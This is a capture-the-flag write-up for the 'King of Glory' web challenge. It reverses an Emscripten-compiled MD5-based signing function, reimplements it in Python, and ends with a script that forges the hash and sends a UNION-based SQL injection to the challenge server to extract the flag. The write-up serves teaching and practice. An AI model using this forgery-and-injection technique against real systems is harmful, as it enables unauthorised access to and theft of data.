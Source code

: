 # King of Glory

## A Bit of Reversing

In this web problem, we encounter a page with no obvious content (save a title). Upon further examination, we see that the page is looking for an `id` parameter and then calling a function on it to get a hash and timestamp. Given the only other included JavaScript is in the file `functionn.js`, it is reasonable to assume that this is where the hashing function lies.

Once we examine `functionn.js`, we immediately see that it is a compiled EMSCRIPTEN file, which means that it was originally native code that had been compiled to `js` via `llvm`. Fortunately for us, a quick examination of the code yields that the first of the EMSCRIPTEN-compiled functions is `__ZN5HASH14initEv`. This is a clear example of c++ function mangling, and so using a demangler we find that this function is `_HASH1::init()`. From there, we can search through and see that this function is called from `__ZN5HASH1C2ERKNSt3__112basic_stringIcNS0_11char_traitsIcEENS0_9allocatorIcEEEE` (`_HASH1::HASH1(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&)`), which is then called from `__Z3hi1NSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE` (`_hi1(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> >)`). Finally, we see that this function, which upon inspection of the corresponding `update` and `finalize` functions appears to be an `md5` functino, is then called from the function `__Z10user_inputNSt3__112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEE` (`_user_input(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> >)`). Given the name of this function, it is reasonable to assume that this is the main function for us to examine.

Now, when examining this code, we see a long mess of functions that seem to be creating and updating dynamic string objects on the fly. In order to get a better understanding of what this code does, we need to know a little bit about how emscripten's emulated environment looks like. Specifically, we need to know that the heap lives in a variable called `heap8`. To help us see what's happening, we will define a function called `printString` which lets us examine a string on the heap.

```js
printString = function(idx) {
	var zout = ""
	for (var i = idx; HEAP8[i] != 0; i++) {
		 zout += String.fromCharCode(HEAP8[i])
	}
	console.log(zout)
}
```

It will also be helpful to define a function to let us examine the contents a c++ `basic_string` type. In this case, the string object will live in a variable called `heap32`, and by trial and error, I found that the string itself is offset by 8 bytes. Furthermore, because this variable is a `32` bit representation, we must divide by 4 when indexing. Thus, we can print a basic string as

```js
printBString = function(idx) {
	printString(HEAP32[idx+8>>2])
}
```

Now that we have these handy debug statements, we can examine what is being created and changed all throughout this method. In the end, what we find is that it begins by taking the `md5` of `"Start_here_"`, then taking bytes 6-22 of the hex representation of that. Those are then prepended to the value being hashed, which is followed by the aptly-named salt, `"This_is_salt"`. The string is finally appended with the current time in seconds. Then, the value that is outputted is the `md5` of the above  string, postpended with the time and `"yo"`, delinineated by `|`. Thus, the the python implementation of this function ends up being

```python
import hashlib

def md5 (string):
    m = hashlib.md5()
    m.update(string)
    return m.hexdigest()

def run (val, time):
    intermed = md5("Start_here_")[6:16+6]
    string = intermed+val+" This_is_salt"+str(time)
    hash = md5(string)
    return hash+"|"+str(time)+"|yo"
```

In addition to this functionality, the executable also makes a few checks to ensure that the value being hashed is a numeral. However, now that we know what the hashing algorithm is, we can hash any value. 

## Transition to Web

Now that we have the hashing algorithm, we can look at what it does once it generates the hash. It sends it to  `/api.php` and passes in the original value and the hash and time. We notice that it throws an error if you provide an improper hash, but if you provide a proper hash and value less than 6, it will generate a name. Otherwise, if you hash and send a string, it generates a 500 error. From here, its not much a logical leap that the rest of the problem would be SQL injection. In fact, the injection is near trivial, as all the protection was done by the hashing algorithm. After poking around with the database contents, we find that we can use the following request to dump the flag

```python
import hashlib
import requests

def md5 (string):
    m = hashlib.md5()
    m.update(string)
    return m.hexdigest()

def run(val, time):
    intermed = md5("Start_here_")[6:16+6]
    string = intermed+val+" This_is_salt"+str(time)
    hash = md5(string)
    payload = {'id':val, 'hash':hash, 'time':time}
    return requests.get('http://202.120.7.213:11181/api.php',params=payload)

r = run("123 UNION ALL SELECT 0,hey FROM fl4g", "1489810337")
print(r.text)
```

Thus, we get `flag{emScripten_is_Cut3_right?}`, which indeed it is.
